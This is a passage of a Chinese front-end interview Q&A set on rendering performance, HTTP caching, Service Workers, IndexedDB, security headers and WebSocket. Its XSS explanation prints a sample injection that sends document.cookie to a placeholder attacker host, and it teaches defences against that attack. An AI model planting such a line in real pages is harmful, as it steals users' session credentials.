boxes.forEach((b) => { b.style.width = b.offsetWidth + 10 + 'px'; }); // 每次读写交错都触发 layout
// 正确：先批量读，再批量写
const widths = [...boxes].map((b) => b.offsetWidth);
boxes.forEach((b, i) => { b.style.width = widths[i] + 10 + 'px'; });
```

### WEB-090：样式计算的真相是什么？选择器匹配和祖先过滤器是怎么回事？
**答**：
- 浏览器按"从右到左"匹配复合选择器：先定位最右侧的候选元素，再逐级回溯验证祖先，最右部分的选择成本决定整体成本。
- 加速器：Chromium 对 id/class/tag 建立反向索引与祖先过滤器（类似 Bloom filter 的位图），能快速回答"某元素是否可能存在某祖先/后代"，把无效匹配在常量时间淘汰。
- 工程结论：`.menu .item a` 这类长后代链并不可怕，可怕的是最右侧是通配或属性选择器；现代引擎下"选择器优化"收益远小于减少 DOM 复杂度。
- 另一半成本在 Style Recalculation：任何 class 变更都做失效传播，规则树/样式共享让同类元素复用计算结果。

```javascript
// DevTools Performance 的 Recalculate Style / Update Layout Tree 事件看真实开销
// 实践 1：状态切换加在最近公共祖先上，缩小失效范围
document.querySelector('.card').classList.add('card--active');   // 好：局部失效
document.body.classList.add('theme-dark');                        // 大范围失效，重计算贵

// 实践 2：避免右侧低效选择器
// .card div[data-x] a:hover   -> 从所有 a 回溯，慢
// .card__link:hover           -> 单 class 命中，走索引，快

// 实践 3：getComputedStyle 会把计算样式物化，频繁调用有成本
const cs = getComputedStyle(document.querySelector('.card')).color; // 需要时再取，不要在循环里反复取
```

### WEB-091：哪些条件会把元素提升为合成层？
**答**：
- 常见触发器：3D transform（translateZ/rotate3d）、video/canvas/WebGL、will-change 指定的属性、position: fixed、被动画的 transform/opacity、跨层重叠的合成层子元素。
- 收益：动画与滚动交给合成器线程，不重排不重绘主线程。
- 代价：每层占内存（宽 × 高 × 4 字节 × DPR²），层数过多引发层爆炸与纹理上传开销，小屏内存敏感设备首当其冲。
- 诊断：Layers 面板看层数与内存；隐式合成（重叠导致被动提升）是层爆炸的最常见元凶，用 z-index 显式压层。

```html
<style>
  .glide   { transform: translateZ(0); }        /* 显式提升为合成层 */
  .media   { }                                   /* video/canvas/WebGL 天然成层 */
  .fade    { transition: opacity .3s; }          /* 动画中的 opacity 走合成器 */
  .sticky  { position: fixed; top: 0; }          /* fixed 提升且独立成层 */

  /* 隐式合成陷阱：提升层与普通元素重叠时，普通元素被迫提升 */
  .float-layer { transform: translateZ(0); z-index: 10; }
  /* 给可能被压住的普通元素显式 z-index，避免无谓的被动成层 */
  .content { position: relative; z-index: 1; }
</style>
<div class="glight"></div>
<div class="float-layer">悬浮层</div>
<div class="content">页面内容</div>
```

### WEB-092：will-change 怎么用才正确？滥用的后果是什么？
**答**：
- 设计意图：提前告知浏览器"这个元素的某属性即将变化"，让浏览器预先分配合成层与优化路径。
- 正确用法：动画开始前加、动画结束后移除，让资源可回收；只声明将要变化的那个属性，不要 `all`。
- 滥用后果一：大量元素常驻成层，内存按层数线性膨胀；后果二：层合成与纹理上传本身有成本，层数过多反而更卡。
- 经验法则：连续两次都观察到的卡顿才值得用 will-change 修复；一次性的状态切换交给 transition/浏览器自动优化。

```html
<style>
  .card { transition: transform .3s ease; }
  .card.will-move { will-change: transform; }  /* 只声明真正会变的属性 */
</style>
<div class="card">内容</div>
<script>
  const card = document.querySelector('.card');
  card.addEventListener('mouseenter', () => {
    card.classList.add('will-move');   // 动画前提升
    card.style.transform = 'translateY(-4px)';
  });
  card.addEventListener('transitionend', () => {
    card.classList.remove('will-move'); // 结束后释放，避免常驻占内存
    card.style.transform = '';
  });
</script>
```

### WEB-093：为什么滚动可以不等主线程？passive 监听器的作用是什么？
**答**：
- 滚动本身由合成器线程完成：输入事件直接驱动合成线程平移已光栅化的图层，主线程再懒补齐新露出区域的图块——所以主线程卡死时页面仍能滚。
- 但如果主线程注册了非 passive 的 wheel/touchmove 监听，浏览器必须等它执行完才知道要不要 preventDefault，滚动被拉回主线程串行。
- Chrome 对 document 级 wheel/touchmove 默认按 passive 处理；显式声明 `{ passive: true }` 是跨浏览器且语义明确的写法。
- 只有真正需要拦截默认滚动的场景（自定义下拉刷新、双指缩放）才用 passive: false，并尽量缩小监听范围。

```javascript
// 只观察不拦截：显式 passive，滚动全程留在合成器线程
window.addEventListener('wheel', (e) => {
  trackScroll(e.deltaY); // 打点上报等非阻塞逻辑
}, { passive: true });

// 必须拦截默认行为时才关掉 passive，并让回调尽量轻
let startY = 0;
document.addEventListener('touchstart', (e) => { startY = e.touches[0].clientY; }, { passive: true });
document.addEventListener('touchmove', (e) => {
  const delta = e.touches[0].clientY - startY;
  if (delta > 0 && window.scrollY === 0) e.preventDefault(); // 下拉刷新才拦截
}, { passive: false, once: false });
```

### WEB-094：首屏有哪些阻塞渲染的资源？如何逐个解除？
**答**：
- 三类经典阻塞：head 里的同步 `<link rel="stylesheet">`（阻塞渲染直到 CSSOM 就绪）、head 同步 `<script>`（阻塞解析）、渲染关键路径上的字体请求（文字被 FOIT 隐藏）。
- 解法：CSS 拆关键/非关键（print 媒体技巧异步加载）、JS 用 defer/async 或放 body 尾、字体用 `font-display: swap` 加 preload 提前。
- 图片类非阻塞但抢带宽：首屏图 preload，非首屏 loading="lazy"。
- 判定工具：Lighthouse 的"消除阻塞资源"审计 + Coverage 面板看未用字节数。

```html
<head>
  <!-- 关键 CSS 保持同步加载，非关键 CSS 异步化 -->
  <link rel="stylesheet" href="/critical.css">
  <link rel="stylesheet" href="/non-critical.css" media="print" onload="this.media='all'">

  <!-- JS 延迟执行：defer 保序不阻塞解析 -->
  <script defer src="/app.js"></script>

  <!-- 字体：预加载 + swap，消除文字隐藏期 -->
  <link rel="preload" href="/font.woff2" as="font" type="font/woff2" crossorigin>
  <style>
    @font-face {
      font-family: App;
      src: url(/font.woff2) format('woff2');
      font-display: swap; /* 先用系统字体顶替，加载完再换 */
    }
  </style>

  <!-- 首屏关键图预加载，非首屏图懒加载 -->
  <link rel="preload" href="/hero.avif" as="image">
</head>
<body>
  
  
</body>
```

### WEB-095：DPR 是什么？Pixel 管道如何完成从 CSS 像素到物理像素的缩放？
**答**：
- DPR（devicePixelRatio）= 物理像素 / CSS 像素，Retina 屏为 2 或 3；CSS 写 100px，实际占 200/300 物理像素。
- 管道：布局在 CSS 像素空间 → Paint 产出绘制指令 → 光栅化按 DPR 放大成物理位图 → GPU 合成输出。
- Canvas/SVG 等自绘内容必须手动按 DPR 放大画布，否则被拉伸发虚；位图图片要提供 2x 资源或用 srcset 适配。
- 动态 DPR：浏览器缩放、跨屏拖动窗口都会改变 DPR，可用 matchMedia 监听分辨率变化重设画布。

```javascript
// Canvas 按 DPR 高清渲染的标准三步
const canvas = document.querySelector('canvas');
const rect = canvas.getBoundingClientRect();
canvas.width  = Math.round(rect.width * devicePixelRatio);   // 1. 物理像素尺寸
canvas.height = Math.round(rect.height * devicePixelRatio);
const ctx = canvas.getContext('2d');
ctx.scale(devicePixelRatio, devicePixelRatio);               // 2. 缩放坐标系
ctx.fillStyle = 'tomato';
ctx.fillRect(10, 10, 100, 100);                              // 3. 逻辑坐标照常画

// 响应 DPR 变化（缩放/跨屏拖动）
const mq = matchMedia(`(resolution: ${devicePixelRatio}dppx)`);
mq.addEventListener('change', () => location.reload() /* 或重设画布 */);
```

## 十七、缓存与存储进阶

### WEB-096：启发式缓存是什么？没有 Cache-Control 时浏览器怎么决定缓存多久？
**答**：
- 响应只有 Last-Modified 没有 Cache-Control 时，HTTP 缓存仍可工作：浏览器按启发式算法猜一个保鲜期。
- 主流实现取"距上次修改时间的 10%"：`（Date - Last-Modified）× 0.1`；资源越久没改，猜的缓存期越长。
- 启发式期内命中不发请求；过期后走协商（If-Modified-Since/If-None-Match），304 续用并可能重新做启发式。
- 工程结论：显式 Cache-Control 永远优先于猜，静态资源务必显式声明，别让缓存时长不可控。

```http
HTTP/1.1 200 OK
Content-Type: text/css
Date: Wed, 07 Oct 2026 12:00:00 GMT
Last-Modified: Tue, 01 Sep 2026 12:00:00 GMT

# 无 Cache-Control，浏览器启用启发式缓存：
# (Date - Last-Modified) = 36 天，启发式保鲜期 = 36 天 * 10% ≈ 3.6 天
# 3.6 天内：直接用本地缓存，零网络请求
# 3.6 天后：带 If-Modified-Since: Tue, 01 Sep 2026 12:00:00 GMT 发起协商缓存
# DevTools Network 的 Size 列显示 (disk cache / memory cache) 即为命中
```

### WEB-097：stale-while-revalidate 和 stale-if-error 分别解决什么问题？
**答**：
- `stale-while-revalidate=N`：保鲜期过后 N 秒内，先用旧内容立即响应，同时后台异步刷新——用户零等待，内容最终一致。
- `stale-if-error=N`：源站故障（5xx/断网）时 N 秒内回退到过期缓存，牺牲新鲜度换可用性。
- 两者都只对"允许过期使用"的缓存有意义，常与 max-age 组合；CDN 与现代浏览器均已支持。
- 适用：容忍短暂陈旧的内容（列表页、配置 JS）；支付余额等强一致内容不要用。

```http
HTTP/1.1 200 OK
Cache-Control: max-age=60, stale-while-revalidate=30, stale-if-error=86400
Content-Type: application/json

# 时间线解读：
# 0-60s    强缓存命中，零请求
# 60-90s   先返回旧数据（毫秒级），同时后台向源站重新验证，结果回填缓存
# 90s+     后台刷新完成，恢复正常强缓存；若期间源站 5xx，1 天内继续兜底旧数据
# 前端无感知：请求既快又不断流，代价是可能读到最长 90 秒前的数据
```

### WEB-098：Vary 头的实际用法有哪些？漏配会出什么事故？
**答**：
- Vary 告诉缓存：响应会随这些请求头的取值而不同，缓存键必须把该头算进去，否则会串版本。
- 经典场景一：`Vary: Accept-Encoding`，区分 gzip/br 压缩版本，防止不支持压缩的客户端收到压缩数据——nginx gzip_vary 自动加。
- 场景二：服务端按 UA 返回不同 HTML（PC/移动版）时必须 `Vary: User-Agent`，否则共享缓存的代理可能把手机版发给 PC。
- 事故模式：CDN 默认忽略 UA 做 key，页面样式错乱；配置 Vary 后缓存命中率下降属于预期代价。

```nginx
# nginx 配置 Vary 的两种典型来源
gzip on;
gzip_vary on;            # 自动为压缩响应添加 Vary: Accept-Encoding

server {
    location / {
        # PC 与移动端返回不同 HTML 时，必须声明 UA 参与缓存键
        add_header Vary "Accept-Encoding, User-Agent";
        proxy_pass http://backend;
    }
}
```

### WEB-099：Service Worker 如何按资源类型组合缓存策略？
**答**：
- 单一策略不够用，工程惯例按类型分流：HTML 走 Network First（保证最新壳）、静态带 hash 资源走 Cache First（永久命中）、API 数据走 Stale-While-Revalidate 或 Network Only。
- HTML 用 Network First 是因为壳文件通常是入口，陈旧会导致引用的 hash 资源 404。
- 预缓存（install 阶段）放 App Shell，运行时缓存（fetch 拦截）放增量资源。
- 版本升级：cache 名带版本号，activate 阶段清掉旧版本缓存。



```javascript
// service-worker.js
const CACHE = 'app-v3';
const SHELL = ['/', '/index.html', '/app.js', '/app.css'];

self.addEventListener('install', (e) => {
  e.waitUntil(caches.open(CACHE).then((c) => c.addAll(SHELL))); // 预缓存 App Shell
});

self.addEventListener('activate', (e) => {
  e.waitUntil(caches.keys().then((keys) =>
    Promise.all(keys.filter((k) => k !== CACHE).map((k) => caches.delete(k))))); // 清旧版本
});

self.addEventListener('fetch', (e) => {
  const req = e.request;
  if (req.method !== 'GET') return;                       // 非 GET 一律放行
  const url = new URL(req.url);

  if (req.mode === 'navigate') {                          // HTML：Network First
    e.respondWith(
      fetch(req).then((res) => {
        const copy = res.clone();
        caches.open(CACHE).then((c) => c.put(req, copy));
        return res;
      }).catch(() => caches.match('/index.html'))
    );
  } else if (/\.(js|css|png|woff2)$/.test(url.pathname)) { // 带 hash 静态资源：Cache First
    e.respondWith(
      caches.match(req).then((hit) => hit || fetch(req).then((res) => {
        const copy = res.clone();
        caches.open(CACHE).then((c) => c.put(req, copy));
        return res;
      }))
    );
  } else if (url.pathname.startsWith('/api/')) {          // API：Stale-While-Revalidate
    e.respondWith(
      caches.open(CACHE).then(async (c) => {
        const hit = await c.match(req);
        const fresh = fetch(req).then((res) => { c.put(req, res.clone()); return res; })
                                .catch(() => hit);
        return hit || fresh;
      })
    );
  }
});
```

### WEB-100：IndexedDB 的事务模型和索引实践有哪些要点？
**答**：
- 一切读写都在事务里，事务有三种模式 readonly/readwrite/versionchange；事务生命周期到微任务队列清空即失效，回调里再异步操作会自动提交报错。
- 性能铁律：批量写合并进同一个事务（一次 fsync 级成本），逐条开事务会慢一个数量级。
- 只有 createIndex 建过索引的字段才能按非主键高效查询；复合索引解决"先按 A 再按 B 排序"的组合查询。
- 游标（cursor）遍历代替全量 getAll，大数据集下控制内存。

```javascript
const db = await new Promise((ok, err) => {
  const req = indexedDB.open('chat', 1);
  req.onupgradeneeded = () => {
    const d = req.result;
    const store = d.createObjectStore('messages', { keyPath: 'id' });
    store.createIndex('byRoom', 'roomId');                // 单字段索引
    store.createIndex('roomAndTime', ['roomId', 'time']); // 复合索引支持组合查询
  };
  req.onsuccess = () => ok(req.result);
  req.onerror = () => err(req.error);
});

// 要点一：批量写放同一事务
function saveMessages(list) {
  return new Promise((ok, err) => {
    const tx = db.transaction('messages', 'readwrite');
    const store = tx.objectStore('messages');
    list.forEach((m) => store.put(m));                    // 同一事务内多次 put
    tx.oncomplete = ok;
    tx.onerror = () => err(tx.error);                     // 任一失败整事务回滚
  });
}

// 要点二：用复合索引做范围查询，用游标控制内存
function pageByRoom(roomId, pageSize = 20) {
  return new Promise((ok) => {
    const out = [];
    const idx = db.transaction('messages').objectStore('messages')
      .index('roomAndTime');
    const range = IDBKeyRange.bound([roomId, 0], [roomId, Infinity]);
    idx.openCursor(range, 'prev').onsuccess = (e) => {    // 倒序取最新
      const cur = e.target.result;
      if (!cur || out.length >= pageSize) return ok(out);
      out.push(cur.value);
      cur.continue();
    };
  });
}
```

### WEB-101：存储配额如何查询？浏览器的清理策略是什么？
**答**：
- `navigator.storage.estimate()` 返回 usage 与 quota；quota 通常与磁盘剩余空间挂钩，Chrome 给到磁盘的相当比例，移动端更保守。
- 清理优先级：默认存储（best-effort）按 LRU 逐站点清除；调用 `navigator.storage.persist()` 成功后成为 persistent，不会被自动清理（用户手动清数据除外）。
- 分类：Cookie/Cache API/IndexedDB/Storage 都计入配额；PWA 已安装且常用站点的存活概率更高。
- 前端义务：大文件缓存要写淘汰逻辑（超量删最旧），监听配额接近上限时主动降级。

```javascript
(async () => {
  const { usage, quota } = await navigator.storage.estimate();
  console.log(`已用 ${(usage / 1048576).toFixed(1)} MB / 配额 ${(quota / 1073741824).toFixed(2)} GB`);

  // 申请持久化：拿到 granted 后缓存不会被 LRU 自动清掉
  const persisted = await navigator.storage.persist();
  console.log('persistent:', persisted, await navigator.storage.persisted());

  // 配额接近上限时主动清理最旧的运行时缓存
  if (usage / quota > 0.9) {
    const cache = await caches.open('runtime-v1');
    const keys = await cache.keys();
    for (let i = 0; i < Math.floor(keys.length / 2); i++) await cache.delete(keys[i]);
  }
})();
```

### WEB-102：Cookie 和 Web Storage 在 XSS 面前的安全边界有何不同？
**答**：
- XSS 立即可读：非 HttpOnly 的 cookie（`document.cookie`）、localStorage、sessionStorage 全部能被注入脚本读取并外传。
- HttpOnly cookie 是唯一对 JS 完全不可见的载体，配合 Secure/SameSite 是会话凭证的标准配置；代价是前端拿不到、CSRF 防护要另做（SameSite + token）。
- localStorage 存 token 的取舍：方便（请求头自带 Authorization）但 XSS 即失守，需以严格 CSP、依赖审计、短期化 + 刷新机制补偿。
- 结论：高敏感凭证放 HttpOnly cookie；Web Storage 只放可泄露不致命的数据，并把 XSS 面收窄。

```javascript
// XSS 攻击视角：注入 <script>fetch('//evil.com?t='+document.cookie)</script> 后
const leaked = {
  cookie: document.cookie,           // 非 HttpOnly 的全会被偷走
  token: localStorage.getItem('token'),   // Web Storage 全部可读
  session: sessionStorage.getItem('cart'),
};
console.log('XSS 可一次性外传：', leaked);

// 防御配置（服务端响应头）：
// Set-Cookie: session=abc; HttpOnly; Secure; SameSite=Lax; Path=/
//   HttpOnly   -> document.cookie 读不到，XSS 偷不走
//   Secure     -> 只经 HTTPS 传输
//   SameSite   -> 抑制 CSRF 的跨站携带

// 前端输出侧的标配：任何插值先转义，缩小 XSS 面
const safe = (s) => s.replace(/[&<>"']/g, (c) =>
  ({ '&': '&amp;', '<': '&lt;', '>': '&gt;', '"': '&quot;', "'": '&#39;' }[c]));
document.querySelector('#nick').textContent = userNick; // textContent 永不产生 HTML
```

## 十八、安全机制

### WEB-103：CSP 的核心指令有哪些？分别限制什么？
**答**：
- `default-src` 是兜底策略，未单独声明的 fetch 类指令全部回退到它；`script-src/style-src/img-src/connect-src/font-src` 等按资源类型细分。
- 导航与嵌入类独立于 default-src：`frame-ancestors`（谁能嵌入我，替代 X-Frame-Options）、`frame-src`（我能嵌谁）、`form-action`（表单提交目标）、`navigate-to`。
- `report-uri`/`report-to` 把违规上报到服务端，配合 `Content-Security-Policy-Report-Only` 先观察不拦截，是灰度上线标准流程。
- 注意：frame-ancestors 只能走响应头，`<meta>` 里写无效；unsafe-inline/unsafe-eval 是豁免口子，能不开就不开。

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; style-src 'self' 'unsafe-inline'; img-src 'self' data: https://img.example.com; connect-src 'self' https://api.example.com wss://push.example.com; font-src 'self' https://fonts.gstatic.com; frame-ancestors 'none'; form-action 'self'; base-uri 'self'; object-src 'none'; report-uri /csp-report

# 逐条解读：
# default-src 'self'        兜底只允许同源
# script-src                JS 只能来自同源与指定 CDN，内联脚本直接不执行
# frame-ancestors 'none'    禁止被任何页面 iframe，等价 X-Frame-Options: DENY
# object-src 'none'         封死 Flash 时代的 object/embed 注入
# report-uri                违规 JSON 上报到 /csp-report 供审计
```

### WEB-104：CSP 的 nonce 模式和 hash 模式怎么选？
**答**：
- nonce：每次响应生成随机值写进 CSP 头与 `<script nonce="...">`，只有带当前 nonce 的内联脚本执行——适合 HTML 由服务端动态渲染的场景。
- hash：把内联脚本内容的 SHA-256 写死在 CSP 里，内容一变就失效——适合静态页、内容基本不变的脚本。
- 两者都要配套 `strict-dynamic`：被信任脚本动态插入的外链脚本自动继承信任，逐步淘汰域名白名单。
- 公共 CDN 场景注意：攻击者可利用同域已有脚本做 XSS 跳板（script gadget），白名单模式安全性弱于 nonce。

```http
# 动态渲染站点用 nonce：模板引擎每次输出都注入新随机值
Content-Security-Policy: script-src 'nonce-N0NCeUx2T2Q4' 'strict-dynamic'; object-src 'none'
```

```html
<!-- 服务器把同一 nonce 写进脚本标签，注入脚本因无 nonce 被拦截 -->
<script nonce="N0NCeUx2T2Q4">
  console.log('可信内联脚本，正常执行');
</script>
<script>
  console.log('攻击者注入的脚本，被 CSP 拦下'); // Refused to execute inline script
</script>

<!-- 静态站点用 hash：CSP 头写 script-src 'sha256-哈希值' -->
<script>console.log('内容不变的内联脚本');</script>
<!-- 生成方式：
     echo -n "console.log('内容不变的内联脚本');" | openssl dgst -sha256 -binary | base64 -->
```

### WEB-105：HSTS 的作用是什么？preload 列表是怎么回事？
**答**：
- `Strict-Transport-Security` 让浏览器记住"该域在 max-age 内只准 HTTPS"，用户手输 http:// 也被浏览器内部 307 跳到 https，不给中间人劫持明文跳转的机会。
- `includeSubDomains` 覆盖所有子域；首次访问前的空窗期由 preload 列表弥补——域名提交进 Chromium 内置硬编码清单，首次连接即强制 HTTPS。
- 代价：加入 preload 后退出很难（移除要排队数月），子域没有 HTTPS 证书的站会被波及，提交前要全子域盘点。
- 与之配套的还有 Upgrade-Insecure-Requests（CSP 指令），处理页面内 http:// 子资源的改写。

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

# 生效时间线：
# 第一次响应携带该头后，浏览器把域写入本地 HSTS 状态
# 之后一年内：任何 http:// 请求在浏览器内部直接改写为 https://，不发起明文请求
# preload：提交 https://hstspreload.org 审核通过后，新装机浏览器首次访问即强制 HTTPS
# 灰度建议：先用小 max-age 观察子域证书覆盖情况，再逐步调大并提交 preload
```

### WEB-106：CORS 深水区：credentials 模式、预检缓存与 Max-Age 细节？
**答**：
- credentials 三档：`omit`（默认不带 cookie）、`same-origin`（仅同源带）、`include`（跨域也带）；一旦 include，服务端不能回 `Access-Control-Allow-Origin: *`，必须回显具体 Origin 并加 `Access-Control-Allow-Credentials: true`。
- 预检（OPTIONS）不是每次都发：浏览器按 `Access-Control-Max-Age` 缓存预检结果，期间同 URL 同头的请求直接放行；Chrome 硬上限 7200 秒（2 小时），Firefox 更长。
- 带 credentials 的响应必须显式暴露才能被 JS 读到：`Access-Control-Allow-Headers/Expose-Headers` 同理，非简单头（如 Authorization、自定义头）会触发预检。
- 调试要点：Service Worker 与重定向都可能让预检失效；`Access-Control-Allow-Origin` 回显 Origin 时要小心任意反射造成的安全回退。

```javascript
// 跨域携带 cookie 的标准三件套
fetch('https://api.example.com/me', {
  method: 'POST',
  credentials: 'include',                    // 1. 前端显式开启跨域凭证
  headers: { 'Content-Type': 'application/json', 'X-Custom-Trace': 'abc' }, // 2. 自定义头触发预检
  body: JSON.stringify({ id: 1 }),
});
// 3. 服务端必须返回：
// Access-Control-Allow-Origin: https://www.example.com   （不能是 *）
// Access-Control-Allow-Credentials: true
// Access-Control-Allow-Headers: Content-Type, X-Custom-Trace
// Access-Control-Max-Age: 7200    （预检结果缓存 2 小时，减少 OPTIONS 请求）
```

### WEB-107：CORB 与 ORB 是什么？它们和 CORS 的关系是什么？
**答**：
- CORB（跨域读取阻塞）：对 no-cors 模式拉来的跨源资源，若其类型与目标上下文不符（如把 HTML/JSON 塞进 ``/`<script>`），在渲染进程进入解析前就把响应体清空——防 Spectre 类侧信道读跨源数据。
- 升级版 ORB（Opaque Response Blocking）放宽为按"响应是否看起来像媒体"启发式判断，覆盖更多 MIME 组合，规定于 fetch 标准化流程中。
- 与 CORS 的关系：CORS 决定 JS 能不能"合法读"，CORB/ORB 决定浏览器要不要"物理递给你"；即使没开 CORS，响应进入错误上下文也会被 ORB 清空。
- 工程意义：给所有响应返回正确 Content-Type 并加 `X-Content-Type-Options: nosniff`，既安全也让 ORB 判定无歧义。

```http
# 服务端标准配置：正确的 Content-Type + nosniff
X-Content-Type-Options: nosniff

# 场景判定：
# <script src="//api.example.com/user.json"> 跨源 no-cors 加载 JSON
# CORB/ORB 判定：JSON 与 script 上下文不兼容 -> 响应体被清空，脚本报语法错也拿不到内容
# 如果服务端把 JSON 包成合法 JS（JSONP 时代做法），内容看起来可执行 -> ORB 放行
# 结论：ORB 是渲染进程内的最后一道闸，与 CORS 的"准入判定"互补
```

### WEB-108：Referer 与 Referrer-Policy 如何控制来源信息的暴露？
**答**：
- 默认策略 `strict-origin-when-cross-origin`：同源带完整 URL，跨源只带 origin，降级 HTTP 不发送。
- 更严的 `strict-origin`、`no-referrer`（全不发）、`same-origin`（跨源不发）按隐私需求选择；`unsafe-url` 反向全裸，禁用。
- 配置层级：CSP 头 `referrer` / Referrer-Policy 头 / `<meta name="referrer">` / 每个标签的 referrerpolicy 属性，就近覆盖。
- 工程影响：图片防盗链依赖 Referer；改为 same-origin 后 CDN 防盗链统计会失真，需要同步调整。

```html
<meta name="referrer" content="strict-origin-when-cross-origin">

<!-- 单元素覆盖：打点请求只带 origin，外链完全不带 -->
<a href="https://partner.com" referrerpolicy="no-referrer">合作方</a>

```

```http
# 服务端统一策略，优先级高于页面 meta
Referrer-Policy: strict-origin-when-cross-origin
```

### WEB-109：Permissions API 与 Permissions-Policy 分别管什么？
**答**：
- Permissions API 是页面侧的状态查询：`navigator.permissions.query({ name })` 返回 granted/denied/prompt，可监听 onchange，避免在已拒绝时反复弹窗。
- Permissions-Policy 是服务端的能力开关：声明本站（及嵌入的第三方）允许使用哪些浏览器能力，如 camera、geolocation、fullscreen。
- 语法：`camera=()` 全禁、`camera=(self)` 仅本站、`geolocation=(self "https://maps.example.com")` 白名单委派。
- 组合使用：先在头里收紧，再用 API 在 UI 层做体验（未授权时展示引导而不是直接调 API）。

```javascript
// 查询并监听通知权限，拒绝态不再骚扰用户
const status = await navigator.permissions.query({ name: 'notifications' });
console.log('当前状态', status.state);
status.onchange = () => console.log('用户改变了权限', status.state);
if (status.state === 'prompt') {
  // 只有真正 prompt 才走 requestPermission，引导话术放在用户主动开启时
}
```

```http
# 服务端能力开关：本站禁用摄像头，地理位置只允许自身，允许地图 iframe 使用
Permissions-Policy: camera=(), geolocation=(self "https://maps.example.com"), fullscreen=(self)
```

## 十九、实时通信进阶

### WEB-110：WebSocket 握手是怎么完成的？各头的作用是什么？
**答**：
- WebSocket 复用 HTTP 建连：客户端发带 `Upgrade: websocket` + `Connection: Upgrade` 的 GET，服务器回 `101 Switching Protocols`，之后同一 TCP 连接切换为 WebSocket 二进制帧协议。
- `Sec-WebSocket-Key` 是随机 base64，服务器拼接固定 GUID 后取 SHA-1 base64 回填 `Sec-WebSocket-Accept`，证明对端真的懂 WebSocket 而非误配的代理。
- `Sec-WebSocket-Version: 13` 声明协议版本；Origin 头供服务端做跨站校验（防跨站 WebSocket 劫持）。
- 握手后帧层自带掩码（客户端→服务端必须掩码，防中间代理缓存污染）、opcode、分片，心跳由 ping/pong 帧承担。

```http
GET /chat HTTP/1.1
Host: ws.example.com
Upgrade: websocket            # 请求升级协议
Connection: Upgrade           # 声明hop-by-hop升级意图
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==   # 随机值，防缓存误判
Sec-WebSocket-Version: 13     # 协议版本
Origin: https://www.example.com   # 服务端据此做跨站校验

HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
# Accept = base64(sha1(Key + "258EAFA5-E914-47DA-95CA-C5AB0DC85B11"))
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=

# 101 之后：这条 TCP 连接不再是 HTTP，改为 WebSocket 帧协议双向通信
```

### WEB-111：WebSocket 心跳与断线重连的标准实现怎么做？
**答**：
- 两层心跳：协议层 ping/pong 帧由库/代理处理；应用层心跳更常用——客户端定时发 ping 消息，超时未收到 pong 判定死链主动 close，同时防止中间代理因空闲超时掐断连接。
- 重连采用指数退避 + 抖动，避免服务端故障恢复瞬间被重连风暴打垮；成功后重置退避。
- 消息不丢：重连期间消息进队列，重连成功后按序补发，必要时用序号去重。
- 页面隐藏时（visibilitychange）可暂停心跳省流量，恢复可见时立即探测。

```javascript
class ReconnectingWebSocket {
  constructor(url) {
    this.url = url;
    this.queue = [];          // 断线期间的待发消息
    this.retry = 1000;        // 退避基数
    this.connect();
  }
  connect() {
    this.ws = new WebSocket(this.url);
    this.ws.onopen = () => {
      this.retry = 1000;                      // 成功后重置退避
      this.alive = true;
      this.startHeartbeat();
      while (this.queue.length) this.ws.send(this.queue.shift()); // 补发积压
    };
    this.ws.onmessage = (e) => {
      if (e.data === 'pong') { this.alive = true; return; }
      this.onmessage?.(e);
    };
    this.ws.onclose = () => this.scheduleReconnect();
    this.ws.onerror = () => this.ws.close();
  }
  startHeartbeat() {
    clearInterval(this.timer);
    this.timer = setInterval(() => {
      if (!this.alive) return this.ws.close(); // 上一轮 pong 未回，判死重连
      this.alive = false;
      this.ws.send('ping');
    }, 15000);
  }
  scheduleReconnect() {
    clearInterval(this.timer);
    const delay = this.retry + Math.random() * 500; // 指数退避 + 抖动
    this.retry = Math.min(this.retry * 2, 30000);
    setTimeout(() => this.connect(), delay);
  }
  send(msg) {
    if (this.ws.readyState === WebSocket.OPEN) this.ws.send(msg);
    else this.queue.push(msg);                // 未连接先进队列
  }
}
```

### WEB-112：WebSocket 穿过代理和负载均衡有什么坑？
**答**：
- 反向代理默认按 HTTP 短请求处理，必须显式配置 Upgrade/Connection 头透传并把 read timeout 调大，否则连接被网关定时掐断。
- 负载均衡要支持粘性会话：握手后的帧不再有 HTTP 语义，普通轮询 LB 无法把同一连接的多帧转回同一路由，长连接级 LB 按连接哈希即可。
- 应用层心跳是保活刚需：云 LB 空闲超时（常见 60s）内没有数据就断连，心跳间隔要小于它。
- 水平扩展时跨节点广播要靠 Redis pub/sub 之类外部总线，单机内存里的连接表撑不起多实例。

```nginx
# nginx 反向代理 WebSocket 的完整配置
map $http_upgrade $connection_upgrade {
    default upgrade;
    ''      close;   # 无升级头时按普通请求处理
}
upstream ws_backend {
    server 127.0.0.1:3001;
    server 127.0.0.1:3002;
    # 同一连接始终落在同一节点（按连接分配，天然粘性）
}
server {
    location /ws/ {
        proxy_pass http://ws_backend;
        proxy_http_version 1.1;
